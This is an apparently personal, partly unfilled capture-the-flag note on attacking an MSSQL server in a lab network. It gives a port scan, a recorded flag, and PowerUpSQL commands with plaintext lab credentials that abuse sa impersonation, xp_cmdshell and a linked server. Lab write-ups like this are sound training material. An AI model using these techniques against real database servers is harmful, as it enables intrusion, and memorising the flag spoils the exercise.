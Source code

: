 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 
- IP: `192.168.210.15`

# Findings
### Credentials
`FoundCREDs`

### flag
- `ZEPHYR{SQLi_2_Imp3rs0n4710n_fun}`
## External
### Enumeration
```
PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
```
- Ppls fucked the network i cant access it
	- But this is how it is done.
- Upload `PowerUpSQL.ps1` and use this Comand to audit for athe mssql vuln
	- `Invoke-SQLAudit -Instance ZPH-SVRSQL01.zsm.local -Verbose -username zabbix -password rDhHbBEfh35sMbkY`
![](https://i.imgur.com/UX4se6V.png)
- we have sa impersonation so we can run xp_cmdshell.
![](https://i.imgur.com/AbhXJVB.png)

- BOOm.
- Checking for linked servers After i saw there is [[ZEPHYR-SQL02]]
	- `Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXEC sp_linkedservers;" -username zabbix -password rDhHbBEfh35sMbkY -Verbose `  ![](https://i.imgur.com/3t8hri8.png)
 - This means, i can control the The ANother server
	- `Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXEC AS LOGIN = 'sa'; EXECUTE ('select @@servername;') at [ZSM-SVRSQL02];" -username zabbix -password rDhHbBEfh35sMbkY -Verbose`
	- ![](https://i.imgur.com/IagY1QG.png)

### Gaining Access


## Internal
### Enumeration
`$enum$`

### Gaining Access


### Maintaining Access


# Random Notes